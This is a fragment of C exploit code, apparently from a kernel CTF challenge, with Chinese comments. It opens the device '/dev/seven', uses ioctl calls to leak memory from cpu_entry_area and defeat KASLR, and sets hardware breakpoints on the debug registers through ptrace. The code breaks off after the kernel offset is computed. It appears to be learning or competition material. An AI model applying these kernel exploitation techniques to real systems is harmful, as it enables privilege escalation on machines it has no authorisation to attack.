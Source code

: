 ```c

size_t leak(size_t addr)
{
    return ioctl(dev_fd, 0x5555, addr);
}

void stack(size_t addr)
{
    ioctl(dev_fd, 0x6666, addr);
}

// 创建hardware breakpoint
void create_hbp(void *addr)
{
    // Set DR0: HBP address
    // 第一个参数表示修改寄存器的值
    // 第二个参数表示修改的pid
    // 第三个参数表示修改DR0寄存器，该寄存器指示要修改的地址
    // 第四个参数表示地址是多少
    if (ptrace(PTRACE_POKEUSER, hbp_pid, offsetof(struct user, u_debugreg), addr) == -1)
    {
        printf("Could not create hbp! ptrace dr0: %m\n");
        kill(hbp_pid, 9);
        exit(1);
    }

    /* Set DR7: bit 0 enables DR0 breakpoint. Bit 8 ensures the processor stops on the instruction which causes the exception.
     * bits 16,17 means we stop on data read or write. Bits 18,19 say we watch 4 bytes. Why 4 bytes? Well, it's convenient to
     * hit 4 DB exceptions per syscall. Why not 8 bytes? Because 4 bytes works fine. */
    // 第三个参数，偏移56表示修改的是DR7
    // 第四个参数表示赋值DR7的值，而DR7不同位表示的作用不一样
    // bit 0(1) ： 表示启用DR0的硬件断点
    // bit 8(1) ： 指示CPU在触发断点的指令执行前中断
    // bit 16-17(01) ： 表示触发的条件是数据读取或者写入（R/W）触发
    // bit 18-19(01) ： 表示监视的范围是4字节
    if (ptrace(PTRACE_POKEUSER, hbp_pid, offsetof(struct user, u_debugreg) + 56, 0xf0101) == -1)
    {
        printf("Could not create hbp! ptrace dr7: %m\n");
        kill(hbp_pid, 9);
        exit(1);
    }
}

int main()
{
    save_status();
    bind_core(0);

    info("Starting to exploit...");

    dev_fd = open("/dev/seven", O_RDONLY);
    if (dev_fd < 0)
    {
        err_exit("Failed to open challenge device.");
    }

    info("Leaking cpu_entry_area...");
    size_t value = leak(0xfffffe0000000004);
    leak_info("value", value);

    kernel_offset = value - 0xffffffff82008e00;
```